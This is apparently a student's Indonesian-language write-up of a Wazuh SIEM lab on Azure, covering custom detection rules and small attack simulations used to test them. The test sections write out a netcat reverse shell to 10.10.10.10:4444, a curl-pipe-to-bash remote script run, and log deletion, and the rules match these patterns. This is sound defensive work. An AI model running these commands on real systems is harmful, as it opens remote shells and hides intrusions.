# netics-oprec-module2-2026
NETICS Oprec 2026: Penugasan Modul 2 (Wazuh)

|Nama|NRP|
|---|---|
|Muhammad Quthbi Danish Abqori|5025241036|

---

## 1. Arsitektur dan Topologi Sistem

### 1.1 Topologi Jaringan
Sistem monitoring keamanan pada proyek ini dirancang menggunakan arsitektur *hibrida* (gabungan antara infrastruktur lokal dan *cloud*). Alur komunikasi data berpusat pada **Wazuh Manager** yang beroperasi di *cloud* sebagai *server*, dan **Wazuh Agent** yang tertanam pada mesin virtual lokal sebagai sensor (*client*).

Proses transmisi data berjalan dengan alur sebagai berikut:
1. Wazuh Agent pada *endpoint* lokal (Ubuntu VirtualBox) mengumpulkan data log sistem, hasil pemindaian integritas file (FIM), dan aktivitas keamanan secara *real-time*.
2. Data tersebut kemudian dienkripsi oleh agen dan dikirimkan keluar melalui koneksi internet (*outbound traffic*) menuju alamat IP Publik dari *server* Wazuh Manager di Azure.
3. Wazuh Manager menerima, melakukan dekode (*decoding*), dan mencocokkan log tersebut dengan *ruleset* (termasuk *custom rules* yang telah dibuat) untuk mendeteksi anomali.
4. Hasil analisis divisualisasikan pada Wazuh Dashboard yang dapat diakses oleh administrator.



### 1.2 Spesifikasi Infrastruktur
Untuk mendukung topologi di atas, infrastruktur dibagi menjadi dua komponen utama dengan rincian spesifikasi sebagai berikut:

**A. Wazuh Manager**
Server ini bertugas menangani pemrosesan log berat dan *indexing* data menggunakan modul OpenSearch bawaan Wazuh.
* **Penyedia Layanan:** Microsoft Azure (Virtual Private Server)
* **Sistem Operasi:** Ubuntu Server 24.04 LTS - x64 Gen2
* **Spesifikasi Komputasi:** Standard_B2ms - 2 vcpus, 8 GiB memory
* **IP Address:** 70.153.192.29



**B. Titik Akhir / Endpoint (Wazuh Agent)**
Mesin ini mensimulasikan *workstation* pengguna atau *server* lokal yang rentan terhadap serangan.
* **Hypervisor:** Oracle VM VirtualBox
* **Sistem Operasi:** Ubuntu Desktop 24.04 LTS
* **Hostname:** `lixyon-lab`
* **Spesifikasi Komputasi:** 2 Core, 4 GB RAM
* **Jaringan:** Bridged Adapter


### 1.3 Konfigurasi Keamanan Azure (Network Security Group)
Mengingat Wazuh Manager diletakkan pada infrastruktur *cloud* publik yang terekspos ke internet, konfigurasi *firewall* yang ketat sangat krusial untuk mencegah akses yang tidak sah. Konfigurasi keamanan ini diterapkan melalui fitur **Network Security Group (NSG)** pada Microsoft Azure. 

Aturan *Inbound* yang diizinkan hanya dibatasi pada port esensial yang dibutuhkan oleh sistem Wazuh, yaitu:

| Port | Protokol | Kegunaan / Layanan |
| :--- | :--- | :--- |
| **22** | TCP | **SSH:** Digunakan oleh administrator untuk manajemen *server* secara *remote* melalui *command line interface* (CLI). |
| **80** | TCP | **HTTP:** Digunakan untuk mengakses Wazuh Dashboard (*web interface*) secara tidak aman. |
| **443** | TCP | **HTTPS:** Digunakan untuk mengakses Wazuh Dashboard (*web interface*) secara aman dengan enkripsi SSL/TLS. |
| **1514** | TCP/UDP | **Agent Communication:** Port utama lalu lintas data. Digunakan oleh agen lokal untuk mengirimkan *event logs* dan menerima konfigurasi dari manajer secara *real-time*. |
| **1515** | TCP | **Agent Enrollment:** Port registrasi (Wazuh Auth). Hanya digunakan saat pertama kali agen lokal mendaftarkan diri ke manajer untuk mendapatkan kunci kriptografi (*client key*). |




---

## 2. Implementasi Sistem

### 2.1 Instalasi Wazuh Manager
Proses implementasi diawali dengan pemasangan Wazuh Manager pada server berbasis *cloud* (Azure VPS). Untuk memastikan efisiensi dan meminimalisir kesalahan konfigurasi (*human error*), instalasi dilakukan menggunakan metode *Wazuh Installation Assistant* (AIA). Script otomatis ini menangani instalasi dan konfigurasi ketiga komponen inti Wazuh secara bersamaan, yaitu Wazuh Indexer, Wazuh Server (Manager), dan Wazuh Dashboard.

Langkah instalasi dieksekusi melalui antarmuka *Command Line Interface* (CLI) pada VPS dengan mengunduh dan menjalankan *script* instalasi *All-in-One* (`-a`). 

```bash
curl -sO https://packages.wazuh.com/4.14/wazuh-install.sh && sudo bash ./wazuh-install.sh -a
```
Setelah proses instalasi yang memakan waktu beberapa menit selesai, sistem akan menghasilkan kredensial bawaan (*username* dan *password*) yang dienkripsi untuk akses pertama kali ke Wazuh Dashboard.



### 2.2 Deployment Wazuh Agent
Setelah pusat komando (Manager) beroperasi, langkah selanjutnya adalah mendaftarkan *endpoint* lokal (Ubuntu VirtualBox) sebagai agen yang dipantau. Proses *deployment* ini dilakukan dengan memanfaatkan fitur **Add Agent** yang tersedia pada Wazuh Dashboard untuk menghasilkan perintah instalasi (*deployment command*) yang spesifik.

Proses pendaftarannya mencakup langkah-langkah berikut:
1. Menentukan parameter lingkungan target melalui *dashboard*, yaitu sistem operasi paket Debian/Ubuntu (`dpkg`) dan arsitektur mesin (`x86_64`).
2. Memasukkan alamat IP Publik dari Wazuh Manager agar agen mengetahui ke mana log harus dikirimkan.
3. Mengeksekusi perintah instalasi yang dihasilkan (*generated script*) pada terminal Ubuntu lokal. Perintah ini secara otomatis mengunduh paket agen Wazuh, menginstalnya, dan memasukkan alamat IP server ke dalam file konfigurasi agen.
4. Menyalakan dan mengaktifkan *service* agen agar berjalan secara otomatis setiap kali sistem dihidupkan (*booting*) menggunakan perintah `sudo systemctl enable --now wazuh-agent`.

Setelah *service* berjalan, agen akan melakukan *handshake* kriptografi melalui port 1515, dan statusnya di *dashboard* akan berubah dari *Disconnected* menjadi *Active*.




### 2.3 Konfigurasi File Integrity Monitoring (FIM)
Secara *default*, modul File Integrity Monitoring (FIM) pada Wazuh Agent dikonfigurasi untuk melakukan pemindaian (*syscheck scan*) pada direktori sistem secara berkala (umumnya setiap 12 jam). Hal ini bertujuan untuk menghemat alokasi CPU dan Disk I/O. Namun, untuk kebutuhan deteksi ancaman tingkat lanjut dan simulasi respons cepat pada proyek ini, modul FIM dikonfigurasi ulang agar beroperasi secara *real-time*.

Modifikasi dilakukan pada file konfigurasi agen di mesin lokal, tepatnya pada direktori `/var/ossec/etc/ossec.conf`. Pada blok konfigurasi `<syscheck>`, atribut `realtime="yes"` disisipkan ke dalam *tag* `<directories>` yang mengawasi direktori kritikal seperti `/etc`, `/usr/bin`, dan `/usr/sbin`. 

Dengan konfigurasi ini, agen memanfaatkan kapabilitas *inotify* pada kernel Linux. Setiap modifikasi, penambahan, atau penghapusan file di dalam direktori tersebut (misalnya perubahan pada file `/etc/passwd` akibat pembuatan *user* baru) akan langsung tertangkap dan dilaporkan ke Wazuh Manager pada detik yang sama, tanpa harus menunggu jadwal pemindaian berkala berikutnya.



---

## 3. Pengembangan Custom Rules

### 3.1 Strategi Deteksi
Sistem deteksi bawaan ( *default ruleset* ) pada Wazuh telah mencakup ribuan *signature* ancaman umum. Namun, penyerang modern sering kali menggunakan taktik *Living off the Land* (LotL), yaitu menggunakan perangkat bawaan sistem operasi (seperti `curl`, `crontab`, atau `sudo`) untuk melancarkan serangan agar tidak terdeteksi sebagai *malware*. 

Oleh karena itu, strategi deteksi pada proyek ini difokuskan pada **Behavioral Analysis**. *Custom rules* dirancang dengan mengkorelasikan log kejadian administratif (khususnya *Parent Rule* SID 5402 untuk eksekusi `sudo`, SID 5760 untuk otentikasi SSH, dan SID 550 untuk FIM) dengan parameter spesifik seperti *regular expression* (regex), *execution frequency*, dan *timeframe*.

### 3.2 Daftar 11 Custom Rules
Berikut adalah rincian 11 aturan kustom yang ditanamkan pada Wazuh Manager (rentang ID 100001 - 100011). Level ancaman bervariasi dari 8 hingga 14.

| ID Rule | Deskripsi Ancaman / Indikator Kompromi (IoC) | Level |
| :--- | :--- | :---: |
| **100001** | Ekskalasi hak akses paksa ke Super User (`sudo su`) | 10 |
| **100002** | Pembuatan akun pengguna baru di sistem (Backdoor Account) | 8 |
| **100003** | Eksekusi perangkat pemindai jaringan (`nmap`) | 12 |
| **100004** | Serangan *Brute Force* SSH (Gagal 4x dalam 1 menit dari IP yang sama) | 12 |
| **100005** | FIM: Modifikasi ilegal pada file sensitif `/etc/passwd` | 12 |
| **100006** | Manipulasi perizinan file menjadi *World Writable* (`chmod 777`) | 10 |
| **100007** | Upaya modifikasi konfigurasi hak akses administratif (`visudo`) | 12 |
| **100008** | Penanaman *script* otomatis di latar belakang (`crontab -e`) | 10 |
| **100009** | Penghapusan paksa file log sistem untuk menutupi jejak (`rm /var/log`) | 12 |
| **100010** | Indikasi pembukaan akses *Backdoor* jarak jauh (Reverse Shell Netcat) | 14 |
| **100011** | Deteksi eksekusi instalasi otomatis di memori (*One-Liner Dropper*) | 13 |



### 3.3 Kode Sumber XML
Seluruh logika deteksi di atas diimplementasikan secara teknis ke dalam direktori konfigurasi manajer di jalur `/var/ossec/etc/rules/local_rules.xml`. Berikut adalah dokumentasi [*source code*](/src/rules.xml) utuh dari aturan yang diterapkan:

```xml
<group name="local, syslog, sshd,">
    <rule id="100001" level="10">
        <if_sid>5402</if_sid>
        <match>COMMAND=/usr/bin/su</match>
        <description>NETICS: Privilege Escalation (sudo su) detected</description>
    </rule>

    <rule id="100002" level="8">
        <if_sid>5902</if_sid>
        <description>NETICS: New user account created in the system</description>
    </rule>

    <rule id="100003" level="12">
        <if_sid>5402</if_sid>
        <match>nmap</match>
        <description>NETICS: Network scanning tool (nmap) detected</description>
    </rule>

    <rule id="100004" level="12" frequency="4" timeframe="60">
        <if_matched_sid>5760</if_matched_sid>
        <same_source_ip />
        <description>NETICS: Multiple failed login attempts from the same source IP address</description>
    </rule>

    <rule id="100005" level="12">
        <if_sid>550</if_sid>
        <match>/etc/passwd</match>
        <description>NETICS: User account information modified</description>
    </rule>

    <rule id="100006" level="10">
        <if_sid>5402</if_sid>
        <match>chmod 777</match>
        <description>NETICS: File permission modified (chmod 777) detected. Highly suspicious activity.</description>
    </rule>

    <rule id="100007" level="12">
        <if_sid>5402</if_sid>
        <match>visudo</match>
        <description>NETICS: Editing sudo configuration file (visudo) detected. Someone is trying to escalate privileges.</description>
    </rule>

    <rule id="100008" level="10">
        <if_sid>5402</if_sid>
        <match>crontab -e</match>
        <description>NETICS: Editing crontab file (crontab -e) detected. Backdoor is potentially installed.</description>
    </rule>

    <rule id="100009" level="12">
        <if_sid>5402</if_sid>
        <match>rm /var/log</match>
        <description>NETICS: Log file deleted. Defense evasion detected.</description>
    </rule>

    <rule id="100010" level="14">
        <if_sid>5402</if_sid>
        <match>nc -e /bin/bash</match>
        <description>NETICS: Reverse shell established. Critical activity detected.</description>
    </rule>

    <rule id="100011" level="13">
        <if_sid>5402</if_sid>
        <match>curl|wget</match>
        <match>bash|sh</match>
        <description>NETICS: Suspicious file download and execution detected.</description>
        <mitre>
            <id>T1059.004</id>
        </mitre>
    </rule>
</group>
```

---

## 4. Uji Coba dan Validasi

Untuk memvalidasi efektivitas *custom rules* yang telah diimplementasikan, serangkaian *penetration testing* berskala kecil dilakukan secara langsung pada mesin *endpoint* lokal (Ubuntu VirtualBox). Uji coba ini dibagi menjadi beberapa skenario berdasarkan tingkat kecanggihan serangan.

### 4.1 Skenario Serangan Dasar (Skenario 1-4)
Pengujian fase pertama difokuskan pada aktivitas anomali administratif dan pemindaian jaringan dasar.
1. **Ekskalasi Hak Akses (Rule 100001):** Pengujian dilakukan dengan mengeksekusi perintah `sudo su` pada terminal *endpoint* untuk berpindah ke mode *root*. Wazuh Agent berhasil menangkap log *auth* tersebut dan Manager langsung memicu *alert* Level 10.




2. **Pembuatan Akun Terselubung (Rule 100002 & 100005):** Simulasi pembuatan *backdoor account* dilakukan dengan mengeksekusi `sudo useradd penyusup`. Tindakan ini berhasil memicu dua *alert* sekaligus: Rule 100002 (Log Analysis untuk *user* baru) dan Rule 100005 (FIM untuk modifikasi file `/etc/passwd`).





3. **Deteksi Pemindai Jaringan (Rule 100003):** Eksekusi perangkat `nmap` menggunakan hak akses *sudo* berhasil dideteksi. Sistem memberikan peringatan kritis (Level 12) bahwa sebuah perangkat *scanning* telah aktif di dalam jaringan.

*Disclaimer:* Eksekusi `nmap` dilakukan pada server pribadi yang sudah mendapatkan izin dari pemilik server (teman saya).




4. **Serangan SSH Brute Force (Rule 100004):** Pengujian dilakukan dari terminal *host* fisik yang mencoba masuk via SSH ke alamat IP mesin virtual (VM) lokal. Sengaja dilakukan input *password* yang salah secara beruntun sebanyak lebih dari 4 kali dalam kurun waktu kurang dari 60 detik. Manager berhasil mengkorelasikan rentetan *event* kegagalan log in (SID 5760) dari alamat IP sumber yang sama dan memicu *alert Brute Force*.




### 4.2 Skenario Serangan Lanjutan
Pengujian fase kedua menyimulasikan taktik penyerang setelah berhasil mendapatkan pijakan pertama (*initial access*) di dalam sistem target.
1. **Manipulasi Izin File (Rule 100006):** Simulasi dilakukan dengan membuat file *dummy* dan mengubah hak aksesnya secara ekstrem menggunakan perintah `sudo chmod 777 script.sh`. Perubahan menjadi *World Writable* ini langsung terdeteksi.




2. **Pembajakan Hak Akses (Rule 100007):** Eksekusi perintah `sudo visudo` untuk mencoba memodifikasi daftar pengguna yang memiliki hak administratif berhasil ditangkap dan memicu peringatan Level 12.




3. **Mekanisme Persistensi (Rule 100008):** Upaya menanamkan *script* yang dapat berjalan otomatis di latar belakang diuji menggunakan perintah `sudo crontab -e`. Sistem keamanan berhasil mendeteksi aktivitas ini sebagai potensi penanaman *backdoor persistence*.




### 4.3 Skenario Serangan Real-World
Pengujian fase ketiga mengadopsi teknik tingkat lanjut yang sering ditemukan pada insiden *real-world cyber attack*.
1. **Defense Evasion (Rule 100009):** Penyerang sering berupaya menghilangkan jejak forensik dengan menghapus log. Eksekusi perintah `sudo rm /var/log/real_log.log` pada *endpoint* berhasil memicu peringatan karena adanya indikasi penghapusan file di dalam direktori sistem yang krusial.




2. **Reverse Shell / Akses C2 (Rule 100010):** Simulasi pembukaan jalur komunikasi *Command & Control* (C2) dilakukan menggunakan perangkat Netcat dengan perintah `sudo nc -e /bin/bash 10.10.10.10 4444`. Upaya pelemparan akses terminal Linux (*shell*) ke alamat IP eksternal ini langsung memicu *alert* dengan level 14.




### 4.4 Skenario One-Liner Dropper
Pengujian terakhir dan paling krusial adalah memvalidasi deteksi terhadap teknik *Fileless Malware* atau eksekusi *malware* di dalam memori tanpa menyentuh *disk*.
Pengujian dilakukan dengan mengeksekusi perintah rantai (*piping*): `sudo curl -s https://raw.githubusercontent.com/ch-tato/test/main/script.sh | sudo bash`.

Meskipun URL yang digunakan merupakan repositori pribadi yang aman, *rule* kustom (100011) berhasil menganalisis *behavior* dari perintah tersebut. Penggabungan *tool* pengunduh (`curl`) yang langsung diteruskan (`|`) ke *shell interpreter* (`bash`) diidentifikasi secara akurat sebagai *Suspicious One-Liner Dropper* dan diklasifikasikan sebagai taktik eksekusi (T1059.004) berdasarkan kerangka MITRE ATT&CK.




### 4.5 Dokumentasi Alert (Bukti Temuan)
Seluruh skenario serangan di atas telah terekam, terdekode, dan terklasifikasi dengan baik oleh *server* Wazuh Manager di Azure. Visualisasi temuan ancaman dapat dilihat melalui tangkapan layar Wazuh Dashboard berikut, yang difilter menggunakan `rule.description: *NETICS*` untuk menampilkan jejak *alert* khusus.


---

## 5. Analisis dan Pembahasan

### 5.1 Efektivitas Deteksi
Berdasarkan serangkaian uji coba penetrasi yang dilakukan pada Bab 4, sistem monitoring keamanan berbasis Wazuh ini terbukti memiliki tingkat efektivitas deteksi yang sangat tinggi. Sistem tidak hanya mengandalkan pencocokan *signature* tradisional, tetapi juga berhasil mengimplementasikan **Behavioral Analysis**. 

Beberapa poin evaluasi efektivitas sistem meliputi:
1. **Kecepatan Respons (Real-Time Alerting):** Mayoritas serangan, mulai dari ekskalasi *privilege* hingga eksekusi *reverse shell*, berhasil ditangkap dan divisualisasikan pada *dashboard* dalam hitungan milidetik (*low latency*). Hal ini membuktikan bahwa transmisi log terenkripsi dari agen lokal ke *cloud* berjalan sangat efisien.
2. **Akurasi Pemetaan Taktik:** Penggunaan *tag* `<mitre>` pada *custom rules* terbukti sangat efektif. Sistem secara otomatis mampu mengklasifikasikan perintah mentah (seperti eksekusi `curl | bash`) ke dalam kerangka kerja intelijen ancaman global (T1059.004 - *Command and Scripting Interpreter: Unix Shell*), sehingga mempercepat proses triase bagi analis *Security Operations Center* (SOC).
3. **Korelasi Frekuensi:** Sistem terbukti mampu melakukan perhitungan logikal (*stateful analysis*). Pada kasus serangan *Brute Force*, sistem tidak membunyikan alarm pada kegagalan *login* pertama atau kedua, melainkan baru terpicu secara presisi ketika ambang batas logikal terpenuhi (`frequency="4"` dalam `timeframe="60"`).

### 5.2 Troubleshooting
Dalam proses implementasi dan pengujian, terdapat beberapa kendala teknis yang berhasil diidentifikasi dan diselesaikan. Dokumentasi *troubleshooting* ini menunjukkan pentingnya proses *tuning* dalam manajemen SIEM:

**A. Ketidakcocokan Signature ID (SID) pada Skenario SSH Brute Force**
* **Kendala:** Pada pengujian awal serangan SSH *Brute Force*, *rule* kustom (100004) tidak terpicu meskipun telah terjadi lebih dari 4 kali kegagalan *login* berturut-turut.
* **Analisis Log:** Setelah dilakukan inspeksi pada log mentah (*raw log*) di Wazuh Dashboard, ditemukan bahwa sistem operasi Ubuntu memancarkan *event* kegagalan otentikasi dengan ID **`5760`** (`sshd: authentication failed`). Namun, *custom rule* yang dikonfigurasi sebelumnya sedang "mendengarkan" ID **`5716`** (`syslog: User missed the password more than one time`). Ketidakcocokan ID *parent rule* ini menyebabkan Wazuh Manager mengabaikan *event* tersebut.
* **Solusi:** Dilakukan modifikasi pada file `/var/ossec/etc/rules/local_rules.xml` di VPS Azure. Parameter korelasi diubah menjadi `<if_matched_sid>5760</if_matched_sid>`. Setelah manajer dihidupkan ulang (*restart*), sistem berhasil mendeteksi serangan *Brute Force* dengan sempurna.

**B. Keterlambatan Deteksi pada File Integrity Monitoring (FIM)**
* **Kendala:** Saat simulasi pembuatan *user* baru, log audit (Rule 100002) langsung muncul seketika, namun peringatan perubahan file `/etc/passwd` (Rule 100005) tidak kunjung muncul di *dashboard*.
* **Analisis Sistem:** Secara bawaan (*default*), modul *Syscheck* (FIM) pada Wazuh Agent dikonfigurasi untuk menghemat kinerja CPU dengan melakukan pemindaian interval setiap 43.200 detik (12 jam). FIM tidak memantau modifikasi secara *real-time* melainkan membandingkan *hash* file saat jadwal patroli tiba.
* **Solusi:** Konfigurasi `ossec.conf` pada agen lokal dimodifikasi. Direktori kritikal seperti `/etc` diberikan atribut tambahan `realtime="yes"`, yang memaksa agen untuk memanfaatkan subsistem *inotify* pada kernel Linux. Hasilnya, modifikasi file langsung memicu *alert* pada detik yang sama.

---

## 6. Referensi

### A. Instalasi Wazuh Server dan Agent

1.  **Wazuh Documentation.** *Wazuh Hardware Requirements & Installation Quickstart*. [https://documentation.wazuh.com/current/quickstart.html](https://documentation.wazuh.com/current/quickstart.html)
2.  **Progressive Cyber.** *Wazuh tutorial 1 | Wazuh SIEM Complete Beginner’s Guide | Concepts, Installation & Setup in details*. [https://youtu.be/mKijuwrTeRM](https://www.google.com/search?q=https://youtu.be/mKijuwrTeRM)
3.  **Microsoft Azure Documentation.** *Network Security Groups (NSG) - Inbound and Outbound rules*. [https://learn.microsoft.com/en-us/azure/virtual-network/network-security-groups-overview](https://learn.microsoft.com/en-us/azure/virtual-network/network-security-groups-overview)

### B. Wazuh Custom Rules dan Konfigurasi

1.  **Wazuh Documentation.** *Custom rules and decoders manual*. [https://documentation.wazuh.com/4.6/user-manual/ruleset/custom.html](https://documentation.wazuh.com/4.6/user-manual/ruleset/custom.html)
2.  **Wazuh Documentation.** *Rules Syntax: XML structure for ruleset*. [https://documentation.wazuh.com/current/user-manual/ruleset/ruleset-xml-syntax/rules.html](https://documentation.wazuh.com/current/user-manual/ruleset/ruleset-xml-syntax/rules.html)
3.  **Wazuh Documentation.** *Local configuration (ossec.conf) reference*. [https://documentation.wazuh.com/current/user-manual/reference/ossec-conf/index.html](https://documentation.wazuh.com/current/user-manual/reference/ossec-conf/index.html)
4.  **MyDFIR.** *Detection Engineering with Wazuh: Building Custom Rules*. [https://www.youtube.com/watch?v=nSOqU1iX5oQ](https://www.youtube.com/watch?v=nSOqU1iX5oQ)
5.  **Catur Nurrochman.** *Wazuh Series - 4. Fitur File Integrity Monitoring (FIM)*. [https://www.youtube.com/watch?v=78-Fq0iaA2Q](https://www.youtube.com/watch?v=78-Fq0iaA2Q)
6.  **MITRE ATT\&CK Framework.** *Technique T1059.004: Command and Scripting Interpreter: Unix Shell*. [https://attack.mitre.org/techniques/T1059/004/](https://attack.mitre.org/techniques/T1059/004/)

### C. Topologi Wazuh
1. **Wazuh Documentation.** *Architecture - Getting Started*. [https://documentation.wazuh.com/current/getting-started/architecture.html](https://documentation.wazuh.com/current/getting-started/architecture.html)
2. **Wazuh Documentation.** *Components - Getting Started*. [https://documentation.wazuh.com/current/getting-started/components/index.html](https://documentation.wazuh.com/current/getting-started/components/index.html)
